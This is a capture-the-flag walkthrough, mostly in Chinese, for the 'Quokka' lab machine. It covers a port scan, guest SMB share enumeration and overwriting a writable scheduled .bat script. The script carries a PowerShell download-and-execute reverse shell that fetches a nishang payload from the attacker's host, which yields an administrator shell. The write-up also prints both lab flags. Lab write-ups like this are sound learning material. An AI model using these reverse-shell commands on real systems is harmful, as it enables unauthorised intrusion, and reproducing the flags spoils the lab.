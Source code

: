 # Quokka

2025.03.16 https://thehackerslabs.com/quokka/

[video](https://www.bilibili.com/video/BV1X4QbYBErv/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

先枚举下 smb 共享：

```
smbmap -u guest -H 192.168.5.40
```

发现 Compartido 并有读写权限，登陆查看：

```
smbclient -N //192.168.5.40/Compartido -U guest
prompt
recurse on
```

发现了一个 bat 维护脚本 \Proyectos\Quokka\Código\mantenimiento.bat ：

```bat
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo más aquí...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit
```

注释中说这个脚本每 1 分钟执行一次，对这个共享目录 guest 用户有修改权限，看看能否得到反弹的 shell:

```bat
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.5.3/shell/5.3/8888.ps1')"
```

这里下载 kali 上 web 服务中的 ps 反弹 shell 脚本 这里使用 nishang 中的 Invoke-PowerShellTcp.ps1。

先在 kali 上创建监听 `rlwrap -cAr nc -lvnp 8888` ，覆盖共享中的文件，等待 1 分钟，得到了反弹的 shell。

反弹的 shell 是 administrator：

```
PS C:\users> whoami
win-vru3gg3dplj\administrador
```

直接拿到 root flag：

```
PS C:\users\administrador\Desktop> gc admin.txt
j9eCpd89VGOscar4nQp8e842mUOb8U
```

寻找另外的 flag：

```
PS C:\users> gci -r c:\users\ *.txt -ea 0
```

```
PS C:\users> gc C:\users\0mar\Desktop\user.txt
9OWiub9aDwcULNxs4w80W63Jl
```

最后在看一下这个每分钟执行的计划任务：

```
schtasks /query  /fo list /v /tn Quokka

Compartido
```
